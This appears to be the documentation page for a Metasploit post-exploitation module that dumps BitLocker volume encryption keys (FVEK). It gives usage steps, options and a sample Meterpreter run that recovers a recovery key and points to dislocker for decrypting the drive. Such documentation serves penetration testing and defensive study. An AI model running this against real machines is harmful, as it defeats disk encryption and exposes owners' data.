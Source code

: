 ## Vulnerable Application

This module enumerates ways to decrypt Bitlocker volume and if a recovery key is stored locally or can be generated, dump the Bitlocker master key (FVEK)

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/bitlocker_fvek```
  4. Do: ```set SESSION <session id>```
  5. Do: ```set DRIVE_LETTER <letter>```
  6. Do: ```run```

## Options

  ***
  DRIVE_LETTER
  ***
  Dump information from the DRIVE_LETTER encrypted with Bitlocker.

  ***
  RECOVERY_KEY
  ***
  Use the recovery key provided to decrypt the Bitlocker master key (FVEK).

  ***
  SESSION
  ***
  The session to run this module on.

## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/bitlocker_fvek
  msf post(windows/gather/bitlocker_fvek) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/bitlocker_fvek) > set DRIVE_LETTER c
    DRIVE_LETTER => c
  msf post(windows/gather/bitlocker_fvek) > run

    [+] Successfuly opened Disk 0
    [*] Trying to gather a recovery key
    [+] Recovery key found : 579744-627517-149402-208362-055022-542289-041470-364089
    [*] The recovery key derivation usually take 20 seconds...
    [+] Successfully extract FVEK in /root/.msf4/loot/20191211125311_default_192.168.1.6_windows.file_437952.bin
    [+] This hard drive could later be decrypted using : dislocker -k <key_file> ...
    [*] Post Successful
    [*] Post module execution completed
  msf post(windows/gather/bitlocker_fvek) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : TEST-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : DOMAIN
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
